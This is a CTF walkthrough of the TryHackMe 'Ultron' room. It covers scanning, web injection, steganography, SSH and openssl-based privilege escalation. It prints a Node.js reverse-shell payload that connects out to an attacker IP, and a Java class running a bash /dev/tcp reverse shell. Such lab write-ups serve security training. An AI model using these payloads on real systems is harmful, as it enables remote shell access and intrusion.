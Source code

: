 # ultron ctf -TryHackMe
## Author : RjRaju

### Ultron CTF room [link](https://tryhackme.com/room/ultr0nctf)

# Port Scan

* __First we need to scan the open ports, Let's use rustscan or nmap to scan the open ports.__


# Rustscan

![line](images/rustscan.png)

# Nmap Scan

![line](images/nmap.png)

# Open Ports

```
Open 10.10.98.46:7022
Open 10.10.98.46:7127
Open 10.10.98.46:8800
```

## **OpenSSH running on port 7022**

![line](images/port7022.png)

## **Nginx server running on port 8800**

![line](images/port8800.png)

## **Unknown login service running on port 7127**

![line](images/port7127.png)


* lets move on port **8800**

# web login

![line](images/login.png)

* Let's run Gobuster in order to find any directories on the service.

![line](images/gobuster.png)

* There is nothing intresting on the page, so let's register the account and login.

![line](images/dashboard.png)

* Let's see the request and responce on BurpSuit
* /source path there is a text box to enter the name, let's see the responce on Burpsuit

![line](images/source.png)

* send this request to repeater

![line](images/burp.png)

* There is Bug on /source?name=hacker field, lets create a payload on JavaScript.

![line](images/res1.png)

## JavaScript Payload

```js

var net = require("net"),sh = require("child_process").exec("/bin/sh");
var client = new net.Socket();
client.connect(1234, "10.6.49.123", function(){
    client.pipe(sh.stdin);
    sh.stdout.pipe(client);
    sh.stderr.pipe(client);
});

```

* Start Listening on port 1234 and encode the URL-Encode above payload, and send Request on BurpSuit.

![line](images/nc.png)

![line](images/urlencode.png)

* Now send the request and you will receive the reverse shell :).

![line](images/req2.1.png)

![line](images/revshellstable.png)

* Here is the source code of web page, in web page there is a /upload path to list the directory listing.


![line](images/data.png)

* Let's copy the ultron.jpg file to upload folder, so we can download that file on web page /upload path

![line](images/download.png)

* Download both files and the meta data.
* The nothing.txt file is useless and ultron.jpg hava some meta data.
* let's download the file and use steghide to extract the hidden data. 

![line](images/steg.png)

* Now we have the login cred's of port 7127 unknown service

![line](images/backdoor.png)

* Now we have code execution, use ssh keys to login as ssh service.
* SSH service is listening on port 7022 as nmap scan shown..

![line](images/ssh1.png)
![line](images/ssh2.png)

* Use the **id_rsa** key to login as wandamaximoff user.

![line](images/wandalogin.png)

* We can't upload linPEAS or other scripts to server, because some kind of firewall's blocking the connection, let's do manual priv..

![line](images/wandapriv.png)
 
* Let's create a JAVA payload to login as vision user.

```java
public class Shell {
    public static void main(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/127.0.0.1/2222 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```

* We can't get the reverse shell on attacket box so lets get rev shell on BOX.
* Use TMUX for multi-pane on BOX.

![line](images/visionshell.png)

* We got the revShell as vision user, let's stabilize the shell.

![line](images/stablize.png)

* submit the user flag.

![line](images/userflag.png)

* vision user can run openssl as root user with no password.

![line](images/vispriv.png)


* Gtfobins

![line](images/gtfobinfileread.png)


* root Flag

![line](images/rootFlag.png)

**Happy Hacking ! ..**
